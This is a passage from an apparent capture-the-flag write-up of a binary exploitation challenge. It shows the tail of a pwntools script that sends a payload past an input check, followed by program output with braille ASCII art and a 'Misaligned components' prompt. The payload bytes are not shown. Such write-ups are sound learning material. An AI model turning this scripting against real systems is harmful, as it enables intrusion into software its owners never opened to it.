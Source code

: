 ```python
conn.sendline(b'fix')

# Wait for 'ts: ' and send the payload
output = conn.recvuntil(b'ts: ')
print(output.decode())
conn.send(payload)

output = conn.recv()
print(output.decode())
```

Running this script got me successfully passed the `inputBuffer()` as it only contain a single `return;` instruction.

<br>
<br>

### • Playing with registers value:

After running the `payload.py` script, we get this output:

```
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡤⢤⣀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡞⠁⠀⠀⠈⢳⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⡼⠃⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⠤⠒⠚⠉⠉⠉⠉⠒⠻⢍⣉⠉⠒⢄⠀⠀⠀⡰⠃⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠯⠖⠂⠀⠀⠈⠉⠙⠲⢄⡀⠀⠈⠑⢦⡀⢳⡠⠚⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡴⠋⢠⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠢⡀⠀⠀⠑⣾⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⠏⠀⢠⠃⣼⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣄⠀⠀⠸⡄⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⠀⠀⣾⢸⠈⡇⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⢸⠹⡄⠀⠀⣻⠀⠀⠀⠀⠀⠀⠀⠀ 
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡞⠀⠀⢰⡏⣿⣸⣷⠀⠀⣠⠀⠀⠀⠀⠀⡿⡀⢸⡇⣇⠀⠀⠇⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢰⡷⠀⠀⢸⣷⡟⣿⠿⣆⣀⣷⣧⣖⣤⡄⣤⣷⡇⣼⠃⣿⣂⣼⠆⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣟⣆⣄⣸⣿⣿⣿⡆⢿⣦⣽⡿⣿⣿⣷⣿⣿⣷⣿⣼⡟⣦⢻⠀⢿⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⢿⣿⣞⡾⢿⡿⠃⠀⠀⠀⠀⠙⠿⠿⢻⠁⠀⣾⣀⡝⣘⣼⠀⢸⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠁⠀⠀⠀⠀⠀⢸⣿⣾⡁⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢺⠀⠀⣿⡟⢛⣽⠁⠀⣼⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⠈⡇⣇⠀⠀⠀⠐⠀⠀⠀⠀⠀⠀⢸⠀⢼⣿⡟⢻⠋⠀⠀⡟⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⠀⣿⠘⢆⠀⠀⠀⠀⠤⠖⠁⠀⠀⢸⠀⣾⢹⠁⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⡄⢹⠀⡌⣷⣄⡀⠐⠀⠀⠀⢀⡴⢾⠀⢹⣏⡀⢰⠀⡇⠀⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢷⣸⠀⣧⡟⢹⡿⣦⣤⠶⠚⠁⠀⣿⢰⢸⡏⠱⣾⡀⡇⠀⣧⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⣀⡤⠴⠒⠚⣿⣿⠀⢹⢳⡾⠀⠀⠀⠀⠀⠀⠰⢿⣴⢸⠳⡾⢿⢇⢧⠀⢹⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⢀⡴⠊⠁⠀⠀⠀⠀⠈⡟⠀⣿⠘⡇⠀⠀⠀⠀⠀⠀⠀⢸⡏⢸⡖⠁⡈⡏⠻⣧⣸⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢀⡞⠂⠀⠀⠀⠀⠀⠀⣠⡇⠀⣧⠀⢾⣄⡰⠄⠀⠀⡜⠀⢸⣴⣸⠀⠠⠟⡇⠠⡈⠙⢷⠦⣀⠀⠀⠀⠀
⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⢀⡎⠀⣟⣆⡿⠂⢸⣣⠄⠀⠀⠀⠈⠉⡹⡇⢸⡀⢄⣠⣿⠀⠈⠧⠀⠀⠀⠑⢆⠀⠀
⠀⠀⠀⠀⢹⠀⠀⠀⠀⡀⢀⡎⢀⠴⠿⢿⠃⠁⠀⡯⣆⠀⠀⠀⢀⠞⢹⢳⣸⣅⣀⣡⢹⡄⠀⠀⠀⠀⠀⠀⢘⡄⠀
⠀⠀⠀⠀⢸⡀⠀⠀⠀⣧⣼⡾⠁⠀⠀⠀⠙⣴⠶⢇⡘⣄⢠⡴⠁⠀⢸⠏⠁⠀⠀⠘⢦⡇⢰⠀⠀⡄⠀⠀⠈⡧⠀
⠀⠀⠀⠀⢸⣧⠀⠀⠀⣹⠟⡇⠀⠀⠀⠀⢀⡇⠘⠀⢹⣽⣏⣀⡀⣰⣯⠀⠀⠀⠀⠀⣸⢻⣶⡇⣰⠁⠀⠀⠀⡇⠀
⠀⠀⠀⠀⢸⣿⣄⡠⡾⠁⠀⢙⣤⣀⣀⡤⠾⣅⠀⣰⡟⠉⣀⣈⠙⣟⣾⣦⣀⠀⣀⡤⠏⠀⣿⣴⠃⠀⠀⠀⣸⠇⠀
⠀⠀⠀⠀⢈⡿⠖⢹⠁⠀⢀⠎⠁⢸⠋⠀⣠⠟⠛⢺⡀⠘⠿⠏⠀⢸⠷⠶⠏⢫⠉⠳⡀⠀⠘⢿⠀⠀⠀⢰⣿⠀⠀
⠀⠀⠀⠀⡼⠀⠀⡇⠀⠀⣼⠀⠀⣿⣠⠞⠁⠀⠀⠈⢳⡦⠀⠀⢀⡞⠀⠀⠀⠘⡆⠀⣱⡀⠀⠈⡧⡴⠖⣸⣻⠀⠀
⠀⠀⠀⢠⠃⠀⢠⡇⠀⠀⣿⢀⣿⣿⡁⠀⠀⠀⢀⠔⢫⣀⣤⣴⠏⠀⠀⠀⠀⠀⣷⠀⣿⣇⠀⠀⡇⠀⠀⡌⢹⠀⠀
⠀⠀⠀⡾⠀⠀⠸⡇⠀⠀⠁⢀⠎⠀⠀⠀⠀⡴⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠁⠀⠉⠀⠈⡇⠀⠀⡀⠸⡆⠀
⠀⠀⢰⠃⠀⡤⠀⣿⣀⠀⢀⠏⠀⠀⠀⢠⠎⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡔⠀⠀⠀⠀⣸⠇⠀⢠⠀⠠⡇⠀
⠀⠀⡏⢀⠎⠀⠀⢻⡟⣦⡜⠀⠀⠀⢀⠏⠀⢠⣐⠤⠒⠁⠀⠀⠀⠀⠀⢀⡴⠋⢀⡀⠀⠀⣠⢿⠀⢀⡞⠀⠀⣧⠀
⠀⢸⣷⠋⠀⢠⠃⠸⣿⣜⠃⠆⠀⠀⣎⡴⠖⠉⠀⠀⠀⠀⠀⠀⠀⢀⣴⣋⠴⠖⠉⢀⡀⣠⣫⠇⠀⠸⠃⠀⠀⣿⡄
⢠⡿⠁⠀⢠⠟⠀⢀⣿⣿⣸⡇⠀⣼⠉⠀⠀⠀⠀⠀⡀⠀⠀⠀⠴⠋⣉⡴⠄⢀⡴⠋⣰⣿⠟⠀⠀⠀⠀⠀⣸⣿⡇
⢸⠇⠀⡰⠃⠀⠀⣼⣿⣿⠋⠉⠓⠫⠿⢿⠒⠒⠚⠯⠥⠤⠦⠭⠵⠾⠯⢤⡺⠿⠗⠚⣿⣿⠀⠀⠀⠀⠀⢠⢿⢽⡗
⠀⠀⠀⠀⠀⠘⡿⣿⣿⡟⠙⠲⢤⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠁⠀⠀⠀⠀⢰⣿⣿⣄⣀⠀⠀⠀⣼⣿⡿⠃
⠀⠀⠀⠀⠀⠀⠀⠀⢈⠀⠀⠀⠀⠀⠒⠉⠙⠛⠭⣅⣉⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢘⡛⠛⠛⠀⠀⠀⠀⠁⠉⠀⠀

[*] Initializing components...

[-] Error: Misaligned components!

[*] If you intend to fix them, type "fix": fix

```